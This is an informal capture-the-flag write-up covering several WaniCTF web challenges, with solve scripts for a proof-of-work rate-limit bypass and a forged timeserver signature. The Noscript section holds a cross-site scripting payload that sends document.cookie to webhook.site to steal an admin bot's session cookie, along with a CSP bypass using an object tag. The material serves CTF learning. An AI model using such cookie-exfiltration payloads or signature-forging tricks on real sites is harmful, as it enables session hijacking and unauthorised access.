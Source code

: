 <h2>Bad_Worker:</h2>
Just curl the /FLAG.txt endpoint.

<h2>POW</h2>
You have to show Proof-of-work by finding 100000 integers whose hashes have the preceding 24bits as zeroes.
First thought:
Find one just number and then just send that same to the server 100000 times but I thought this was just too resource intensive.
Still ran a script to find such a number:
```
function hash(input) {
  let result = input;
  for (let i = 0; i < 10; i++) {
    result = CryptoJS.SHA256(result);
  }
  return (result.words[0] & 0xFFFFFF00) === 0;
}

let i = BigInt(0);
async function main() {
  async function loop() {
    console.log(`Checking ${i.toString()}...`);
    for (let j = 0; j < 1000; j++) {
      i++;
      if (hash(i.toString())) {
        console.log(`Found valid hash for ${i.toString()}`);
        process.exit(0);
      }
    }
    setImmediate(loop);
  }
  loop();
}
main();
```

Got 2862152 as first result. Tried sending it but was stopped by a rate limit after a bit.

After seeing writeups:
I am dumb. 
Could have just sent an array of the number repeated 1000000 times.

Solve.py:(Not mine sadly)

```
import requests

s = requests.Session()

headers = {"Content-Type": "application/json"}

for i in range(10):
    payload = "[" + ",".join(['"2862152"'] * 100000) + "]"
    resp = s.post("https://web-pow-lz56g6.wanictf.org/api/pow", data=payload)
    print(resp.text)
	
```
OR

`for(let i=0;i<10;i++)await send(new Array(100000).fill("2862152"));`
Javascript one liner which you can directly run in console.

<h2>One day one letter</h2>
This was sort of a rev challenge. 
We get one letter of the flag each day and the flag has 12 characters. 
The timestamp is provided to the server via a timeserver which is specified with the request 
The timeserver provides the timestamp signature and the public key. 
The content server checks if the signature is validated by the public key and if it does then sends a letter of the flag.
So basically have to create own key pair and sign the timestamp with it and send to server.
Doing so for different timestamps gives one letter at a time.

Solve script (Not mine) Credit: https://xp.goodwillmischief.fr/posts/web/

```
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS
import hashlib
import time
import requests
import re
import time

import urllib3
urllib3.disable_warnings()

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')

print(pubkey)  # paste at http://attacker-server/pubkey

headers = {
  'Content-Type': 'application/json',
}

proxies = {
  "http": "0.0.0.0:8080",
  "https": "0.0.0.0:8080"
}

time.sleep(10)


def send_req(tstamp, signature):
  json_data = {
      'timestamp': tstamp,
      'signature': signature,
      'timeserver': 'happi.free.beeceptor.com',
  }
  response = requests.post(
      'https://web-one-day-one-letter-content-lz56g6.wanictf.org/',
      headers=headers,
      json=json_data,
      verify=False,
      proxies=proxies,
  )
  return response

def find_letter(html):
    pattern = r'FLAG{\?+([a-zA-Z]).*}'
    match = re.search(pattern, html) 
    
    if match:
        return match.group(1)
    else:
        return 1


if __name__ == "__main__":
    timestamp = int(time.time())
    flag = [0]*12

    for i in range(12):
      idx = timestamp // (60*60*24) % 12
      print(f"{timestamp} -> {idx}")

      # Convert timestamp to string and encode to bytes
      timestamp_bytes = str(timestamp).encode('utf-8')

      h = SHA256.new(timestamp_bytes)
      signer = DSS.new(key, 'fips-186-3')
      signature = signer.sign(h)

      r = send_req(timestamp_bytes.decode(), signature.hex())
      c = find_letter(r.content.decode())
      print(f"[+] {c} found at pos {idx}")
      flag[idx] = str(c)

      # Add one day from the timestamp
      timestamp += 60*60*24
      print(flag)
    
    print(''.join(flag))
    
# FLAG{lyingthetime}
```

<h2>Noscript</h2>

We need to retrieve the admin’s cookie who is a XSS bot using playwright.
https://xp.goodwillmischief.fr/posts/web/


Another solution without meta tags:
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>

Changing the type from text/plain to text/html is important as the username endpoint (which has no csp and thus vulnerable and used)
just shows the username as text which won't get it to execute when visited by admin.